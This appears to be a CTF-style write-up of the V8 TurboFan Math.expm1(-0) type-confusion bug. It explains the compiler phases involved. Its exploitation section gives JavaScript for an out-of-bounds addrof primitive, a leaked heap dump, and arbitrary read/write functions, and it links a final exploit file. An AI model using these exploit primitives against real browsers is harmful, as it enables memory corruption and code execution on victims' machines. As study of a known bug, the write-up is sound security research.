# Math.expm1(-0) is it actually -0 ?

## Understanding the bug:
- typer runs
    - typer phase.
    - TypeNarrowingReducer - load elimination phase.
    - simplified lowering phase. 
- math.expm1(-0) is always -0, but the typer is making a mistake of `range` as (plainNumber, NaN) but -0 is not a plain number or a NaN. 



### Object.is()

> 1- Initial phase
- The typer assigns this as a SameValue node in IR 



> 2- TypedOptimization - ReduceSameValue
```
else if (lhs_type.Is(Type::MinusZero())) {
    // SameValue(x:minus-zero,y) => ObjectIsMinusZero(y)
    node->RemoveInput(0);
    NodeProperties::ChangeOp(node, simplified()->ObjectIsMinusZero());
    return Changed(node);
  } else if (rhs_type.Is(Type::MinusZero())) {
    // SameValue(x,y:minus-zero) => ObjectIsMinusZero(x)
    node->RemoveInput(1);
    NodeProperties::ChangeOp(node, simplified()->ObjectIsMinusZero());
    return Changed(node);
  }
```



> 3- simplified lowering
```
case IrOpcode::kObjectIsMinusZero: 
Type const input_type = GetUpperBound(node->InputAt(0));
if (input_type.Is(Type::MinusZero())) {
    VisitUnop(node, UseInfo::None(), MachineRepresentation::kBit);
    if (lower()) {
    DeferReplacement(node, lowering->jsgraph()->Int32Constant(1));
    }
}
```



### Patch and the bug details:

- Math.expm1 gets converted to a (Float64Expm1 and ChangeFloat64ToTagged) which will just truncate the -0 to a 0
- Using a call node, inbuilt v8 math.expm1 we can avoid this.
- The patch is applied only to the typer.cc and not the operation-typer so we can produce a call node from the v8 builtins to get the math.expm1 in v8 which still has the incorrect type assumtions set.



### Pipeline of turbofan:


#### Typer phase:
- Go through all the nodes and send it to GraphReducer.
- Try to associate the type with the following node.

#### Type lowering:
- does a shit ton of optimisation like



#### Ecape analysis:


#### Simplified lowering:
- Has a lot more cases to optimization.

## Exploitation:

- Problem: Our sameValue has type of boolean that made the type assumption of (0, 1337) and hence no OOB access. 



- Like the blog said we have to keep the samevalue node until the last optimization and fold it to be true. Which means the compiler should'nt know that we are comparing with -0 untill the last optimization.
- in escape analysis we can fix the -0 to the object.is() and in simplified lowering we get our desired range value and hence a removal of the checkbounds because the `assumed` return type is false and it will always be inside the array limits. hopefully.

> #79:CheckBounds[VectorSlotPair(INVALID)](#125:NumberMultiply, #58:NumberConstant, #45:Checkpoint, #43:Call)  [Static type: Range(0, 4), Feedback type: Range(0, 0)]



### OOB Array creation:
- Using the OOB array access we can just leak the addrof objects if we keep it nearby to a float array.
- After a lot of trial and error and lot of monkey patching I finally found a way to get memory leak kinda better.
```py
function addrof(x, i=1){
    let a = [1.1, 2.2, 3.3];
    let b = [5.5, 5.5, 5.5, 5.5, 5.5];
    let o = {m: -0};
    let t = Object.is(Math.expm1(x), o.m) + 0;
    t *= (i+0); // i to integral.
    let val = a[t];
    oob_rw_buffer = b;
    return val;
}
```
- a is the array to get out of bounds. b is the array where I want to change the length field.
- tricky stuff: the parameter value `i` is not having much type, So I added it with 0 to make sure the type gets fixed to the integral type. Now the feedback along with this will make out oob read possible. silly JS engine. 
- finally storing the context of b into oob_rw_buffer. Given below is the rough leak after the fixed array of `a`.

```
3) int: 0x7a7e2501459
4) int: 0x500000000
5) int: 0x4016000000000000
6) int: 0x4016000000000000
7) int: 0x4016000000000000
8) int: 0x4016000000000000
9) int: 0x4016000000000000
10) int: 0x375928582cf9   - (map of b)
11) int: 0x7a7e2500c21    - (property of b)
12) int: 0x65ad13cc1c9    - (element backing pointer of b)
13) int: 0x500000000      - (length field)
14) int: 0x7a7e2500561
15) int: 0x8000000000000000
16) int: 0x3ff199999999999a
17) int: 0x3ff199999999999a
18) int: 0x3ff199999999999a
19) int: 0x3ff199999999999a
```

### Addrof primitive:
- Since we have the OOB array and having a another array after helps us to achieve a oob array read hence having a addrof primitive.


### Arb read/ Arb write:
- We can just store the ArrayBuffer after all the allocations and calculate the offset difference between the arraybuffer and oob array and use that to get arb_read and arb_write.
```js
function arb_write(addr, val){
    oob_rw_buffer[diff/8n] = addr.i2f();
    dv.setBigUint64(0, val, true);
}
```
```js
function arb_read(addr){
    oob_rw_buffer[diff/8n] = addr.i2f();
    return dv.getBigUint64(0, true);
}
```

[Final Exploit](./exp.js)


## Debugging stuff:
- Helper code for GDB is basically located in src/objects-printer.cc
- Node structure for all the sea of nodes. 
  - **Methods:**
  - New, clone, isDead, kill...
  - **Variables:**
  - like op(description of the computation):
    - opcode related
    - properties 

  - --trace-turbo: to get the thingy for turbolizer graph.
  - --trace-representation: it gives out the feedback types and info about each of the optimization phases. 

## Links:
- https://abiondo.me/2019/01/02/exploiting-math-expm1-v8
- https://www.jaybosamiya.com/blog/2019/01/02/krautflare/